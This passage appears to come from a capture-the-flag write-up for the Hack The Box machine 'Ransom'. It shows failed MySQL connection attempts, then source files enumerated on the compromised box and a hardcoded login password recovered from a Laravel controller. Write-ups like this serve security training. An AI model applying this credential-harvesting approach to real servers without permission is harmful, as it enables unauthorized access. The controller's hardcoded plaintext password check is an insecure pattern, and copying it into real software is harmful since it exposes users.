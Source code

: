 Unfortunately, the mysql is not downloaded on the local server and is also not publicly accessible. At the same time, we are unable to download mysql into our local server as we do not have root permissions.

```
htb@ransom:/tmp$ mysql -h 127.0.0.1 -P 3306 -p -u uhc

Command 'mysql' not found, but can be installed with:

sudo apt install mysql-client-core-8.0     # version 8.0.28-0ubuntu0.20.04.3, or
sudo apt install mariadb-client-core-10.3  # version 1:10.3.34-0ubuntu0.20.04.1

htb@ransom:/tmp$ apt install mysql-client-core-8.0
E: Could not open lock file /var/lib/dpkg/lock-frontend - open (13: Permission denied)
E: Unable to acquire the dpkg frontend lock (/var/lib/dpkg/lock-frontend), are you root?
----------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/Desktop/ransom]
└─$ mysql -h 10.10.11.153 -P 3306 -u uhc -p                                                        1 ⨯
Enter password: 
ERROR 2002 (HY000): Can't connect to MySQL server on '10.10.11.153' (115)
```

Navigating to /srv/prod and enumerating the files from there, we are able to find a password (```UHC-March-Global-PW!```) in /srv/prod/app/Http/Controllers/AuthController.php

```
htb@ransom:/srv/prod/app/Http/Controllers$ cat AuthController.php
<?php

namespace App\Http\Controllers;

use App\Models\User;
use Illuminate\Http\Request;
use App\Http\Requests\RegisterRequest;
use Illuminate\Support\Facades\Auth;
use Illuminate\Support\Facades\Hash;

class AuthController extends Controller
{
    /**
     * Display login page.
     * 
     * @return \Illuminate\Http\Response
     */
    public function show_login()
    {
        return view('auth.login');
    }

    /**
     * Handle account login
     * 
     */
    public function customLogin(Request $request)
    {
        $request->validate([
            'password' => 'required',
        ]);
        if ($request->get('password') == "UHC-March-Global-PW!") {
            session(['loggedin' => True]);
            return "Login Successful";
        }
        return "Invalid Password";
    }
```